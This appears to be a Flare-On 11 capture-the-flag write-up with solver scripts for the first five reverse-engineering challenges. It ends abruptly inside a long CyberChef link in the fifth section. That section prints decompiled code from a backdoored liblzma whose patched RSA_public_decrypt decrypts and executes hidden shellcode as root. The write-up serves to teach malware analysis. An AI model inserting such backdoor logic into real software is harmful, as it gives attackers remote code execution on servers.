










## Forewords

First time player, first time finisher. Thank you [FLARE team](https://cloud.google.com/security/mandiant-services)/[MANDIANT](https://www.mandiant.com) for these great challenges in Flare-On 11 that really satisfied my appetite for high-quality inspirations of what could still be done in reverse engineering.

> * **URL**: [https://flare-on11.ctfd.io/](https://flare-on11.ctfd.io/)
> * **Username**: csmantle (Individual participation)
> * **Status:** Done, #179




A small number of long scripts in this post has been snipped out of actual data definitions for brevity and bandwidth, yet I am very glad to provide complete code if PM'd (via email, comments, etc. :wink:).

---

- [Forewords](#forewords)
- [1 - frog](#1---frog)
- [2 - checksum](#2---checksum)
- [3 - aray](#3---aray)
- [4 - Meme Maker 3000](#4---meme-maker-3000)
- [5 - sshd](#5---sshd)
- [6 - bloke2](#6---bloke2)
- [7 - fullspeed](#7---fullspeed)
- [8 - clearlyfake](#8---clearlyfake)
- [9 - serpentine](#9---serpentine)
- [10 - CatbertRansomware](#10---catbertransomware)

---

## 1 - frog

> Welcome to Flare-On 11! Download this 7zip package, unzip it with the password 'flare', and read the README.txt file for launching instructions. It is written in PyGame so it may be runnable under many architectures, but also includes a pyinstaller created EXE file for easy execution on Windows.
> Your mission is get the frog to the "11" statue, and the game will display the flag. Enter the flag on this page to advance to the next stage. All flags in this event are formatted as email addresses ending with the @flare-on.com domain.

A basic understanding of Python and PyGame is everything we need.

```python
victory_tile = pygame.Vector2(10, 10)

def GenerateFlagText(x, y):
    key = x + y*20
    encoded = "\xa5\xb7\xbe\xb1\xbd\xbf\xb7\x8d\xa6\xbd\x8d\xe3\xe3\x92\xb4\xbe\xb3\xa0\xb7\xff\xbd\xbc\xfc\xb1\xbd\xbf"
    return ''.join([chr(ord(c) ^ key) for c in encoded])
    
def main():
    ...
    while running:
        ...
        if not victory_mode:
            # are they on the victory tile? if so do victory
            if player.x == victory_tile.x and player.y == victory_tile.y:
                victory_mode = True
                flag_text = GenerateFlagText(player.x, player.y)
                flag_text_surface = flagfont.render(flag_text, False, pygame.Color('black'))
                print("%s" % flag_text)
```

```python
x = y = 10
key = x + y*20
encoded = "\xa5\xb7\xbe\xb1\xbd\xbf\xb7\x8d\xa6\xbd\x8d\xe3\xe3\x92\xb4\xbe\xb3\xa0\xb7\xff\xbd\xbc\xfc\xb1\xbd\xbf"
print(''.join([chr(ord(c) ^ key) for c in encoded]))
```

`welcome_to_11@flare-on.com`

## 2 - checksum

> We recently came across a silly executable that appears benign. It just asks us to do some math... From the strings found in the sample, we suspect there are more to the sample than what we are seeing. Please investigate and let us know what you find!
> 7zip archive password: flare

Rather straight forward Golang reverse engineering. Patching away the initial questions would get us straight to the decryption.

```python
import base64
from pwn import xor

STR_MAIN_A_TARGET = "cQoFRQErX1YAVw1zVQdFUSxfAQNRBXUNAxBSe15QCVRVJ1pQEwd/WFBUAlElCFBFUnlaB1ULByRdBEFdfVtWVA=="

def gen_main_a_map(length: int) -> list[int]:
    l = []
    TABLE = b"FlareOn2024"
    for i in range(length):
        rdx_2 = ((i * 0x5d1745d1745d1746) & 0xffffffffffffffff0000000000000000) >> 64
        rax_3 = i - (rdx_2 // 4) * 0xb
        l.append(TABLE[rax_3])
    return l

buf = base64.b64decode(STR_MAIN_A_TARGET)
key = bytes(gen_main_a_map(len(buf)))
assert len(buf) == len(key)
cksm = xor(buf, key)
print(cksm)
```

Checksum: `7fd7dd1d0e959f74c133c13abb740b9faa61ab06bd0ecd177645e93b1e3825dd`


## 3 - aray

> And now for something completely different. I'm pretty sure you know how to write Yara rules, but can you reverse them?
> 7zip archive password: flare

[YARA](https://yara.readthedocs.io/) rules are useful in searching for patterns in binary and text files, especially when used as heuristics for malwares.

The handout of this challenge is a YARA source file, from which we can extract required constraints via a script and use [Z3 Solver](https://z3prover.github.io/) to find the result satisfying all the predicates.

```python
import hashlib
import itertools as it
import re
import string
import typing as ty
from zlib import crc32

import z3
from pwn import error, info, success, warn

RESTR_ATOM_REF8 = r"uint8**\(**([0-9]+)**\)**"
RESTR_ATOM_REF32 = r"uint32**\(**([0-9]+)**\)**"
RESTR_ATOM_DEC = r"([0-9]+)"
RESTR_ATOM_HEX = r"(0x[0-9a-f]+)"
RESTR_ATOM_HEXSTR = r"**\"**([0-9a-f]+)**\"**"
RESTR_ATOM_HASH = r"hash.(sha256|md5|crc32)**\(**([0-9]+), ([0-9]+)**\)**"
RESTR_ATOM_CMP = r"(==|!=|<|>)"
RESTR_ATOM_OP = r"(**\^**|&|%|**\+**|-)"

RE_STMT_SIMPLE8 = re.compile(f"^{RESTR_ATOM_REF8} {RESTR_ATOM_CMP} {RESTR_ATOM_DEC}$")
RE_STMT_BINOP8_L = re.compile(
    f"^{RESTR_ATOM_REF8} {RESTR_ATOM_OP} {RESTR_ATOM_DEC} {RESTR_ATOM_CMP} {RESTR_ATOM_DEC}$"
)
RE_STMT_BINOP8_R = re.compile(
    f"^{RESTR_ATOM_DEC} {RESTR_ATOM_OP} {RESTR_ATOM_REF8} {RESTR_ATOM_CMP} {RESTR_ATOM_DEC}$"
)
RE_STMT_BINOP32_L = re.compile(
    f"^{RESTR_ATOM_REF32} {RESTR_ATOM_OP} {RESTR_ATOM_DEC} {RESTR_ATOM_CMP} {RESTR_ATOM_DEC}$"
)
RE_STMT_HASH_STR = re.compile(
    f"^{RESTR_ATOM_HASH} {RESTR_ATOM_CMP} {RESTR_ATOM_HEXSTR}$"
)
RE_STMT_HASH_HEX = re.compile(f"^{RESTR_ATOM_HASH} {RESTR_ATOM_CMP} {RESTR_ATOM_HEX}$")

with open("aray/constraints.txt", "rt") as f:
    constraints = [
        constr.strip() for constr in f.read().replace("filesize", "85").split(" and ")
    ][1:]

N_UNKNOWNS = 85
UNK_WIDTH = 8

x = [z3.BitVec(f"x_{i}", UNK_WIDTH) for i in range(N_UNKNOWNS)]

solver = z3.Solver()

hash_constrs: list[tuple[str, str, int, int, str]] = []
for constr in constraints:
    match RE_STMT_SIMPLE8.match(constr):
        case None:
            pass
        case m:
            ref_id = int(m.group(1))
            cmp_op = m.group(2)
            lit_val = z3.BitVecVal(int(m.group(3)), 8)
            if cmp_op == "==":
                expr = x[ref_id] == lit_val
            elif cmp_op == "!=":
                expr = x[ref_id] != lit_val
            elif cmp_op == "<":
                expr = z3.ULT(x[ref_id], lit_val)
            elif cmp_op == ">":
                expr = z3.UGT(x[ref_id], lit_val)
            else:
                assert 0, cmp_op
            solver.add(expr)
            continue
    match RE_STMT_BINOP8_L.match(constr):
        case None:
            pass
        case m:
            ref_id = int(m.group(1))
            op = m.group(2)
            lit_val1 = z3.BitVecVal(int(m.group(3)), 8)
            cmp_op = m.group(4)
            lit_val2 = z3.BitVecVal(int(m.group(5)), 8)
            if op == "^":
                lhs = x[ref_id] ^ lit_val1
            elif op == "&":
                lhs = x[ref_id] & lit_val1
            elif op == "%":
                lhs = z3.URem(x[ref_id], lit_val1)
            elif op == "+":
                lhs = x[ref_id] + lit_val1
            elif op == "-":
                lhs = x[ref_id] - lit_val1
            else:
                assert 0, op
            if cmp_op == "==":
                expr = lhs == lit_val2
            elif cmp_op == "!=":
                expr = lhs != lit_val2
            elif cmp_op == "<":
                expr = z3.ULT(lhs, lit_val2)
            elif cmp_op == ">":
                expr = z3.UGT(lhs, lit_val2)
            else:
                assert 0, cmp_op
            solver.add(expr)
            continue
    match RE_STMT_BINOP8_R.match(constr):
        case None:
            pass
        case m:
            lit_val1 = z3.BitVecVal(int(m.group(1)), 8)
            op = m.group(2)
            ref_id = int(m.group(3))
            cmp_op = m.group(4)
            lit_val2 = z3.BitVecVal(int(m.group(5)), 8)
            if op == "^":
                lhs = x[ref_id] ^ lit_val1
            elif op == "&":
                lhs = x[ref_id] & lit_val1
            elif op == "%":
                lhs = z3.URem(x[ref_id], lit_val1)
            elif op == "+":
                lhs = x[ref_id] + lit_val1
            elif op == "-":
                lhs = x[ref_id] - lit_val1
            else:
                assert 0, op
            if cmp_op == "==":
                expr = lhs == lit_val2
            elif cmp_op == "!=":
                expr = lhs != lit_val2
            elif cmp_op == "<":
                expr = z3.ULT(lhs, lit_val2)
            elif cmp_op == ">":
                expr = z3.UGT(lhs, lit_val2)
            else:
                assert 0, cmp_op
            solver.add(expr)
            continue
    match RE_STMT_BINOP32_L.match(constr):
        case None:
            pass
        case m:
            ref_id = int(m.group(1))
            ref = z3.Concat(x[ref_id + 3], x[ref_id + 2], x[ref_id + 1], x[ref_id])
            op = m.group(2)
            lit_val1 = z3.BitVecVal(int(m.group(3)), 32)
            cmp_op = m.group(4)
            lit_val2 = z3.BitVecVal(int(m.group(5)), 32)
            if op == "^":
                lhs = ref ^ lit_val1
            elif op == "+":
                lhs = ref + lit_val1
            elif op == "-":
                lhs = ref - lit_val1
            else:
                assert 0, op
            if cmp_op == "==":
                expr = lhs == lit_val2
            else:
                assert 0, cmp_op
            solver.add(expr)
            continue
    match RE_STMT_HASH_STR.match(constr):
        case None:
            pass
        case m:
            hash_constrs.append(
                (constr, m.group(1), int(m.group(2)), int(m.group(3)), m.group(5))
            )
            continue
    match RE_STMT_HASH_HEX.match(constr):
        case None:
            pass
        case m:
            hash_constrs.append(
                (constr, m.group(1), int(m.group(2)), int(m.group(3)), m.group(5))
            )
            continue
    assert 0, constr

if solver.check() != z3.sat:
    error("Unsat")
    exit(1)

info("Hash constraints:")
for hash_constr in hash_constrs:
    info(hash_constr)

result: list[ty.Any] = [0] * N_UNKNOWNS
m = solver.model()
for d in m.decls():
    result[int(d.name()[2:])] = m[d].as_long()  # type: ignore

buf = bytearray(result)
info(buf.decode("ascii", errors="replace"))

ALPHABET = (string.printable).encode("ascii")
for hash_constr in hash_constrs:
    if hash_constr[1] == "sha256":
        for comb in it.product(ALPHABET, repeat=hash_constr[3]):
            hasher = hashlib.sha256()
            hasher.update(bytes(comb))
            if hasher.digest() == bytes.fromhex(hash_constr[4]):
                info(f"Found correct sha256 for {hash_constr[0]}: {bytes(comb)}")
                for i, c in enumerate(comb):
                    result[hash_constr[2] + i] = c
                break
    elif hash_constr[1] == "md5" and hash_constr[3] <= 8:
        for comb in it.product(ALPHABET, repeat=hash_constr[3]):
            hasher = hashlib.md5()
            hasher.update(bytes(comb))
            if hasher.digest() == bytes.fromhex(hash_constr[4]):
                info(f"Found correct md5 for {hash_constr[0]}: {bytes(comb)}")
                for i, c in enumerate(comb):
                    result[hash_constr[2] + i] = c
                break
    elif hash_constr[1] == "crc32":
        for comb in it.product(ALPHABET, repeat=hash_constr[3]):
            digest = crc32(bytes(comb))
            if digest == int(hash_constr[4], 0):
                info(f"Found correct crc32 for {hash_constr[0]}: {bytes(comb)}")
                for i, c in enumerate(comb):
                    result[hash_constr[2] + i] = c
                break
    else:
        warn(f"UNIMP {hash_constr[0]}")

assert hash_constrs[0][1] == "md5"
hasher = hashlib.md5()
hasher.update(bytes(result))
assert hasher.digest() == bytes.fromhex(hash_constrs[0][4])
success(bytes(result).decode("ascii", errors="replace"))
```

```yara
rule flareon { strings: $f = "1RuleADayK33p$Malw4r3Aw4y@flare-on.com" condition: $f }
```

`1RuleADayK33p$Malw4r3Aw4y@flare-on.com`

## 4 - Meme Maker 3000

> You've made it very far, I'm proud of you even if noone else is. You've earned yourself a break with some nice HTML and JavaScript before we get into challenges that may require you to be very good at computers.
> 7zip archive password: flare

Straightforward JavaScript reverse engineering. More often than not, running critical or suspicious snippets in your browser or Node.js is really beneficial.

```javascript
function a0k() {
  const t = a0p,
    a = a0g[t(0xa1d)]["split"]("/")[t(0x7e8)]();
  if (a !== Object[t(0x59c5)](a0e)[0x5]) return;
  const b = a0l["textCo" + "ntent"],
    c = a0m[t(0x10f5a) + t(0x125ab)],
    d = a0n["textCo" + "ntent"];
  if (
    a0c[t(0x12d23) + "f"](b) == 0xe &&
    a0c[t(0x12d23) + "f"](c) == a0c[t(0x1544d)] - 0x1 &&
    a0c[t(0x12d23) + "f"](d) == 0x16
  ) {
    var e = new Date()[t(0x1094a) + "e"]();
    while (new Date()[t(0x1094a) + "e"]() < e + 0xbb8) {}
    var f =
      d[0x3] +
      "h" +
      a[0xa] +
      b[0x2] +
      a[0x3] +
      c[0x5] +
      c[c[t(0x1544d)] - 0x1] +
      "5" +
      a[0x3] +
      "4" +
      a[0x3] +
      c[0x2] +
      c[0x4] +
      c[0x3] +
      "3" +
      d[0x2] +
      a[0x3] +
      "j4" +
      a0c[0x1][0x2] +
      d[0x4] +
      "5" +
      c[0x2] +
      d[0x5] +
      "1" +
      c[0xb] +
      "7" +
      a0c[0x15][0x1] +
      b[t(0x15e39) + "e"]("\x20", "-") +
      a[0xb] +
      a0c[0x4][t(0x9a82) + t(0x1656b)](0xc, 0xf);
    (f = f[t(0x143fc) + t(0x8c67)]()),
      alert(
        atob(
          t(0x14e2b) +
            t(0x4c22) +
            "YXRpb2" +
            t(0x1708e) +
            t(0xaa98) +
            t(0x16697) +
            t(0x109c4)
        ) + f
      );
  }
}
```






`wh0a_it5_4_cru3l_j4va5cr1p7@flare-on.com`

## 5 - sshd

> Our server in the FLARE Intergalactic HQ has crashed! Now criminals are trying to sell me my own data!!! Do your part, random internet hacker, to help FLARE out and tell us what data they stole! We used the best forensic preservation technique of just copying all the files on the system for you.
> 7zip archive password: flare

In fact I didn't even think about the [XZ backdoor](https://tukaani.org/xz-backdoor/) when solving this challenge. It can be done simply as a normal forensics and RE task.

First clue of the compromised library comes from the mismatched hash when trying to download and load debug symbols in GDB. I spun up a VPS running exactly the same version of Debian and related libraries to ensure a consistent environment before proceeding.

The coredump makes multiple references to liblzma.so.5.


There is a suspicious ChaCha20 sigma constant here.



BinDiff'ing given liblzma.so.5.4.1 with a normal distributed library (which is actually liblzma.so.5.6.2):



We can see the backdoored liblzma patches loaded `RSA_public_decrypt` for RCE, yet the name was wrong (a space being erroneously appended).





```c
void __fastcall init_crypt_state(state *buf, const uint32_t *key, const uint32_t *nonce, __int64 ctr)
{
  unsigned __int64 v5; // rdi
  uint32_t v7; // ecx
  uint32_t v8; // ecx
  uint32_t v9; // edx
  uint32_t v10; // eax

  *(_QWORD *)buf->x = 0LL;
  v5 = (unsigned __int64)&buf->x[2];
  *(_QWORD *)(v5 + 176) = 0LL;
  memset((void *)(v5 & 0xFFFFFFFFFFFFFFF8LL), 0, 8 * (((unsigned int)buf - (v5 & 0xFFFFFFF8) + 192) >> 3));
  *(__m128i *)buf->what_key = _mm_loadu_si128((const __m128i *)key);
  *(__m128i *)&buf->what_key[4] = _mm_loadu_si128((const __m128i *)key + 1);
  *(_QWORD *)buf->what_nonce = *(_QWORD *)nonce;
  v7 = nonce[2];
  qmemcpy(buf->chacha20_sigma, "expand 32-byte k", sizeof(buf->chacha20_sigma));
  buf->what_nonce[2] = v7;
  buf->chacha20_key[0] = *key;
  buf->chacha20_key[1] = key[1];
  buf->chacha20_key[2] = key[2];
  buf->chacha20_key[3] = key[3];
  buf->chacha20_key[4] = key[4];
  buf->chacha20_key[5] = key[5];
  buf->chacha20_key[6] = key[6];
  v8 = key[7];
  buf->chacha20_nonce[0] = 0;
  buf->chacha20_key[7] = v8;
  buf->chacha20_nonce[1] = *nonce;
  buf->chacha20_nonce[2] = nonce[1];
  buf->chacha20_nonce[3] = nonce[2];
  *(_QWORD *)buf->what_nonce = *(_QWORD *)nonce;
  v9 = nonce[2];
  v10 = buf->what_nonce[0] + HIDWORD(ctr);
  buf->chacha20_nonce[0] = ctr;
  buf->what_nonce[2] = v9;
  buf->chacha20_nonce[1] = v10;
  buf->what_ctr = ctr;
  buf->rem = 64LL;
}

int __fastcall RSA_public_decrypt_patched(int flen, unsigned __int8 *from, unsigned __int8 *to, void *rsa, int padding)
{
  const char *v9; // rsi
  void *old_func; // rax
  void *mshellcode; // rax
  void (*fshellcode)(void); // [rsp+8h] [rbp-120h]
  state state; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v15; // [rsp+E8h] [rbp-40h]

  v15 = __readfsqword(0x28u);
  v9 = "RSA_public_decrypt";
  if ( !getuid() )
  {
    if ( *(_DWORD *)from == 0xC5407A48 )
    {
      init_crypt_state(&state, (const uint32_t *)from + 1, (const uint32_t *)from + 9, 0LL);
      mshellcode = mmap(0LL, len_shellcode, 7, 34, -1, 0LL);
      fshellcode = (void (*)(void))memcpy(mshellcode, &shellcode, len_shellcode);
      do_some_enc(&state, fshellcode, len_shellcode);
      fshellcode();
      init_crypt_state(&state, (const uint32_t *)from + 1, (const uint32_t *)from + 9, 0LL);
      do_some_enc(&state, fshellcode, len_shellcode);
    }
    v9 = "RSA_public_decrypt ";
  }
  old_func = dlsym(0LL, v9);
  return ((__int64 (__fastcall *)(_QWORD, unsigned __int8 *, unsigned __int8 *, void *, _QWORD))old_func)(
           (unsigned int)flen,
           from,
           to,
           rsa,
           (unsigned int)padding);
}
```

Recovering ChaCha20 parameters allows us to write a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=ChaCha(%7B'option':'Hex','string':'94%203d%20f6%2038%20a8%2018%2013%20e2%20de%2063%2018%20a5%2007%20f9%20a0%20ba%202d%20bb%208a%207b%20a6%2036%2066%20d0%208d%2011%20a6%205e%20c9%2014%20d6%206f'%7D,%7B'option':'Hex','string':'f2%2036%2083%209f%204d%20cd%2071%201a%2052%2086%2029%2055'%7D,0,'20','Hex','Raw')&input=MEZCMDM1NEU4MUZENTBFNTA0QkY2QjFCQzIwRjY2MTY3RjFBODA2NjAxNEIzRkVEQTY4QkFBMkQ0MkFFM0JFODdDRTg3MDMwMzVFNjMyMjIzRDhBQjlERjk3NjlCMzQyNkRFNDg0NjY1QkM3RDUyOTUzNDcwNzNFQ0ZGQjI5QkZDMjFGMzZERDI4NDE0NkEzNjg5OUZGRUZFOUQwQzVFNzFGREE1OEFEQkNCMzkyNEQ5MjNGQzU4MEQ2REZEOEZCQzNDQzNFNDVDMzE5QzBDQUYzODBFNTQ1ODRCM0VDQTc4ODUzRUI5RjdFN0NDOTIxRjE1RDUyNjM5NERFNjVGNTNCMTgxMTdFNEUwMzBBMzExRTU3RDBEMjQ4MzY4QTYwN0NFMTVGRkU3NzRGNDE3RkM3MjZEMzJFQzA5RDI2NjE0NDc5MkFBRUFEQzJEMzkxQkZCQTk4N0FCREVEMUNFMTEyNTM3OUU5QTk3MzgzOUNERkM2MTEwMUQxQTk0NDQyQkQ3NjU5MzJFMDE3RkM1M0RDQThFRUJDOTY3OURDNDcxODVEMTIwQTFBRTU2QjU0RTVDREVFOUI1Njg3RDVCMUU4NkQ4REE5NTdFNkU5ODZBQjRBN0ZBQUQ5MzNERkQwNzc1OUY4RDdDRjQxNTJDNzk4QkQ1MUE3QzJDODM1NTUxMkQ0QjNCNUFCRUYzRTNCNzM4MThFMzAyNzZCODBFMkQxQ0RENzE0RkI0OEQxRTg5NEREQTMwQTZBMkQwNDE3Qzc1MDdCNTU1MkQ2M0JCRTdDRUFEMEE0RjdDMDY5QkU1NzY1Q0M2MUJBNjcxRUZDODAxMTM5MEU4MTQzQjg5QUY1NzM0NjE3QTMxQUREMzI2NTUwQUZEMjNFODNCNTYyMEQ0NDE1RkE5MkI3QzBDQzcwQUZGNkMyRTMzMzBFRkY4QzkwMUNEMTZFQzA4MTlBRTdFNTBFRkE4NkI1NTM1QUNDQjM4MTA5REY3NkQxODMyRkNGRDgwREZGRDczQjQzQzJDMUI3QzdERjA1NzY2Qzg4N0QyOEVDMEZFRkY0OEIxMkNERkMwOERCQkQ4MjAwN0NGMzk1OEU0MUNERkRGREVFMEY2RUEzOTk4Njk3M0JCMzIzNDEzNUY2NjY5MEEyNUFFQUJCRkNCMEY0NERENTQ4MTQ3MTI0OThDMjMzMTE4NkYwRjdBMUY4MTQwQzFDRUFENEFCNDBGNUI3OUEwMDBBNDA3MjQ2NkIyM0IzMEIxNDVERjBBMzVFMkIwRTU1RjZCQkRDMUNFOTlGQTY3NEM1MUMyOTFENTkwNDk2NTFDMjk2OEJENDMxRDUyQ0UwOTVCRjRCRENFODUyNEZCMDc3QkZGREJGN0NCQUUzMjBEMjc1MTdGRUYwMzRFNDNFQkJENzU2RTYyNUU4MEJBNzFDNUJGMkVCMjQ0NTcwNjI5RDc0QkQ4RUU1QzRGRDczMENBMUExMDRCMEU0M0Y0MUMyRDlCQTczRDJEMTZBOEMzN0JDMkJFRTM3RUNFMDFGQTNGMDNBNDBCREU3MENDRDM0RTdGMEI3OTdDQzVCNTI0RjgwRUQ0RjFFNUIwNDdFNjJEN0EwQTMwMDNENURDRDg1MEQwMzVBQzAwRTYzNDQxOUZEQzIyQjQ4M0ZFODFENEVGNjE0RkZBQzc1QTJGNDE4NTUzMjUwM0JENERGMDhDMjdGNUI5Q0QyRDhCQkM0MjMxMUZFOUQwNDk5NDhBRjM2RjFBRkY1NjVFRDMwQjZFNjExMTM2NTlCRjY5Nzg2MDFFNzczQTZCMERCRjk0OUYzMUM5NDdFOThGRTUyQkM2QjZEODc1OTJEMUI2RUZGQUYyRDVENUM2REFBNzE4NDhBOTFCRUIyMDVCNDM2OUY5ODFCQUM2Q0MwNDM3MzZBQjA2QjVFQ0I5MDM0OTVDMjgzMDM5QjQ3OTJFOEY1RTBCNkRFRUFDMDY0NTQ4OUM5MEJGQTAyMTc2QjkyMTUzNjQzMTQxODQ2QzcyNDJDQUE0M0E0NUYwNEUwOEQ2RTY1M0YzMzE4RjMxNDYzRjZEN0JFQ0ZEQjM3NjI0RTI2MDlGRDYyN0E5MERENjExMUU2QUJDREVFRTM3MzAzNkIxNDNCMTMwQjU3NjQ4NzQyOEE2ODY0MjZCODBEMUY2MDMyMDg5OTU1Q0ZBRjE3RkQzNTg3MDZDQTIyNDE0MjhENjQ2REUzQjczOTQ1NUVBMkRFN0I5QjlDNTJGNTQ2ODEyMTdERUI1OTYyMEFEMUE2NjJEQTVFOUY4QTA4MjM0NkIwRUY5MUI4RENFOTcxRDU1MzI1ODg0NUE1MkQzRjY4M0EwN0QxNjgxNkYyQTZDMTIwREM5NDExRTQzN0I3RDkyNDc1MkJCNEU2NzU1OTRBODNGRTBCRDcxNjRENjY5QTA0NDYyQkE5NkNDNjNENjlEQjdEMjQxQTQ4RTExRkRGNjMwNTI5RjYwRjk3QTBFNDk0RTZGRTUyMEUzODc4QUVCODFGNkI4MDRGMjhGNURBQTk5RUNFMDA0OUQwMTMyMjAwQ0I2QzZFNDU0RDI1M0U1QTk5OUFCMDJERTlCNzI0RUI5MDVCQUFGNTIzMjY5QTNBQ0Q1Q0QwRkU2RkNCRUYzMUQ2RjI2MUE5NjJGRTBBNDYxQzg3ODk5Q0QzQTBCQkFFMkVCMkM3OUJDMEIyOUQxN0FBRDVBQzkzRDZDOEM4MjZEQjE0QThGMjBDMTlFMDMwRDBENTQ3ODAzN0M1MkFBOTJCMDU5NTkzMTQ5NkQ1MDVFN0RCOEY3MTA3MjE0Qzg4OEYwRTFCQ0M2MzIxOUM0OTgyRDdCODFGRUJCQzZGM0MwQTI4MjJENzA4RDdCMDc4QjFCQjIwMkZFQTE4MkQ4NkI2RTZFMkY4QzIwQzBGOTRFMThERTgxODk1MUY1NDBBMjM1OENFQTRDQzIzN0Y1RTVDQTk0RUY4NzFBNzk0QTg1NTZBNjg5QzU5NTZGOTY0QkQ1NUE2NUE1MDAzQzNCRDE4RTcxQTNBMUIyODk4NjdBN0M1MDI5OTFDQkQ2RThDMzk4RUFBOTdDMEE1OUJFRENBMjlCNzBEMzE4QkZBMjBGMzkzNUU0Q0JCMEUyQzQwNjdCNEUyREZBMEM0NjVERTdERUU5MUVBQTVBM0NBNjMzMUQzRjJEODIwN0JGMDYxNEVGQTc2QTZDMjEyMjE5RTU2QTFENTQxNUI4MzhBMUNGRUZCOTNGMkUyMjUzOUI2MkYxNkM5NzcxNzlDMTYyREEyMjcxM0NGMUE4Mjc0NTE4QjE2OEY3OTY0NDlCQUY1REJEQ0NDMjgxQzIzRTZDQjNDNUM0ODA3MUI5NjM3NjUyQ0EyOUFDMjJGQzZFODFBNTYzMTUzQ0ZFQzFCNkNGQ0VCQkM1MDE5OTc0RTE0MTZDQjk3RjRBQ0Q4ODI3REYzNDcwMkY0REE2OTVFNTJGQjMwQkM4RTMwMkMxMEY1MkZEMUVDMEQxMzNCNzhDQzdFQjU5QzQzNEMzNjI3RjkwQ0RCQzZCODQ3MjVEMUVEODVBNDFDREIxQjNFMUE4RTg1QkMxMTNDNkMzOTZCMzQ3RjlBQkFBNTdCOTdDMTE2ODNEM0RDQjZFMUNFOUNFODNERDU2MzkyQkFDRkU4OTVBMzZDMjM5ODYwOTYzQTdBM0I2MUEwNjAyQkE0MjY4QkI2N0E4ODY4NjM2OTBBMjg0N0ZCQjg1ODIxODMzNTk4QjM0NzQ0N0FCQjc4MjEyRDNCRDdGNjAzNDVEMzhGRTREMUEyRjQyOUFBMkIwOEQ4QjRDRDM2NEIzRTQxQkRGRUYzQjY3QjE4MTVBMDgwQjEyNzAzMTMyNjkxREMwQTFDREM4RkI4MEM4Njk2Q0Q4NkY5QThEODE5Njk3QkQxQ0U4RDU5NTFEQzdEQUFBRkE0MjAxNjE3M0UwMEEyRDVDREY3NEQ0MjNBMTk3NEI0OUE5RjhEQkMwNjAxQzNCNTY2QTczQkJEMTA4NTY4MDFERTcxOEE3MTEwNTAxM0ZFREY3RTIzREEzQzBCMkY3Q0YyRTBGNDcxRjNENjAxRDBBNjZEQkVGQTBBREEwOEU5NjM4NkVFMENCN0U1RUFDOTY1MjA0QjUzMDA5REIzQUQwQTkzODM1RjI0MTE4RDBERjQ4QkRGQTU2MThEMDg3MDJFMTc1OTkwQTE4OUU0NjNCNEQyQjUxMjg1Q0E0OEM3MkQwQjFCRDI4NkNDNjA0QzMzRkFDQzE3NEFFQTE2RTgwODczMkFCNTI4QjUwMjgwOTZDMzJFQUQ2Mjg3N0M3NjdGQUE1NzgxN0UxNzAyNzRDMDk4MENEMDYzRUVFNTI5QTg1RjJFMzc0QkFFNkVCRUU3Q0YyNjczM0VFREVDMThBNTMzQjhBNDY0NjEyN0Y4NEJFMTY2Njg4OEIyRTk4NzI0NDBDQjBFQUZBMjQ0QzgxMDA4RDQxRTJCREUwOTVDOTREQjQ2MzBDMDNDNkMwRThBNkZCOTE1Q0VFODRCQUEyRENFNzJGNkI3RDJGNEE5NEJCMTRFNjNERDIwNEIxRkVEMTJBMURGNzQyNUE5QjAxQkQ3NzM5RUI4MzBDQjhBOTk4RERFMjEwREI4OUYyNzAzRTIxRkRFQjkxRTFGRjYzMEE3MTA5OTYwNUFBRUI3NTIwNUYwN0YxQzdFOTA0NzQ2MzhBNkMzNDExRTk1NTZBMzRFNjcyNDQwQTRCRjA1QzE4MkE4MDRGQ0FFMUVDQTc1QTNDNTNENEFGRjNGRkVFRDcxNjVFNUI4QzU3RjQ0ODY1NjcwQ0ZBN0IxMkE2QTYzRUQ0ODU0NTMwRDZDRjJBMjExQjExRTg1RDM2NzQzMjM1NzgwQzlCNjUwMTAyNkE3OTEzNTZGNDgxNEQzNDA4RjUzRTczMjU2NDMzRTY2NDA5OTM5MTIxQzNGREU1Q0E2MTk5MTEyRUNDNjE5ODkxMUY2OUI2NkVCOTlGREREQ0Q1NjJDQkM0Q0QwREFDNEEzMDU3ODBBOTQ4QkNGMzVFRjhBMkY1MzUxNDY2MTc1RjU1QkNGOTFGRkM2MDU3NjJCMURDMUFBMTdFMEVDMkRFQjQ3OTIwQTk0NTg5QURFRjYzNTc1REE0OEZFMkU5ODY4MERDNjM5NzZGM0RDMEJDOTEyODhDOUE0MTcxODRGNjhENzFGQkU4Q0ZGNEQ5RTY3QjlFMDQ1MEU3MjZCQjE3OTMzOEU2QzNFQzUxRjI2OEQ3Njk0QkJEMDNCMEI2OEZCMzNERENCNEMwNTlCNTJGQkE2NzY0NTIwREYwN0NDRDNGNzE3OEM4NEMwQzZGN0QxMkZBNDY0MzhCMjQzQ0JDNzhEOERFOTYwNDQ0MzhCNDJENzM2MDA2MkI0QTk5NjFGOUMzMUQ0OTJFMENFRTg0NzY0RDA1NTNFOTgwNTdEM0Q5NUM0OUIwNUU2MDRBMDNGMjg1QUVBRUYxNkJCNzY2MTQ0NkM1QjJFMkQ1NjM3QURBRkMwMzEwQTQ0QUJDOUU2N0I4RjgzNkY3ODAwMjZDOTg4NThCQThEQTBFRDg5OUUwMUE1REEyNkIyRDhCRjlDQ0VFOTg0RDkxNjgwM0M5NUFENjA0RENERjExNjMwNEI3RTgyN0NBN0M3RjlCN0IzQTgzNUQ2NThCRUE5MDE1MjVEREYxMkQxQjQ5MzlDRjlGMTE3OTVEMEY5RTc2MTkwQzRENEQyNjY5ODhFMzY1RUFEMzhGRTUxRkIwNzQ4NDRDOEZCNkRCRERGRUUyMjUwOTJBQTJCODYyM0ZBQkFDMzlDRERCNkUyMDYyRjAzODVFMUYyRDgzOEU3MjkyQzE2NzFGMEFFRTdGM0RCNUNERjlDOEUzODVDRDVBQjAzQTU4MDgxMEFDRTc1MzU1QzNBMzM3M0YzMjY4QTFEQTgwN0NCQjM4MDFBQzJDNTQ5NDhEOENBN0FDMUM1RjI1MjEwQUQ0NzA4NDk4REYxMTVBMTFENkU4QTk5MzFDNDc5NDY0Rjc4NUY4N0I3OUJENEIzQTAyMDFBMkRFMDU5NEQ5NkZDN0E0QUUwM0FGQjg1N0E2MzFGMDBCNzIyQjEwN0U3NTRDMzhCREIxRUJEN0ExRDAxRTE5NENCQ0VCMjREREVDODlDRDY0NDhGQTkzMEU3QkU1QzZGNTlBMTNBMEY5QzkzNTJCRjNGMDNERjZGMEFFMEY4NjhBNTZBQTI2RTBGMzU2OUY4RkQzNzZFODE2QURBNzc4MDNDREVFMEM3QjlBRUQ4MjBCM0E1QTI4NDdBRkYxRkJFNEI0MzUyODFDMkQxMTIwMkE1Qjg0OTQ0MkNBNTg4QzYwN0Y1RUExREJC